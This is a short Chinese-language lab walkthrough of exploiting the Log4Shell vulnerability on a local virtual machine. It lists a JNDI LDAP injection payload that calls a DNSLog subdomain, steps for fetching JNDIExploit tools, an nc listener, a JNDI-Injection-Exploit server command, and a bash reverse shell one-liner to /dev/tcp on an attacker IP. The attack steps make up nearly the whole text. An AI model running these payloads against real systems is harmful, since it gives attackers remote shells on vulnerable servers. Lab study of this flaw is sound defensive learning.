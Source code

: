 #### 验证漏洞可利用性

- 打开[DNSLog](http://www.dnslog.cn/)，获取子域名

  ![](./img/打开dnslog.cn.png)

- 用burp适配的浏览器访问`192.168.56.103:58172/hello?payload=111` ，用burp查看抓包

  ```
  #ldap://dnslog获取的随机域名/任意
  payload=${jndi:ldap://kw511z.dnslog.cn/exp}
  ```

- 修改payload参数，并对payload字段进行编码

- 在DNSlog获得解析记录

#### Log4shell漏洞利用

- 准备另一台作为攻击者的虚拟机，在上面下载JNDTIExploit

  `https://github.com/bkfish/Apache-Log4j-Learning.git`

- 解压`unzip JNDIExploit.v1.2.zip`

- 攻击者启动777端口，等待受害者主机victim反弹回连getshell`nc -l -p 7777`

- 用JNDI-Injection-Exploit搭建服务

  ```
  java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
  ```

- 构造fantanshell的payload`bash -i >& /dev/tcp/192.168.56.105/7777 0>&1`
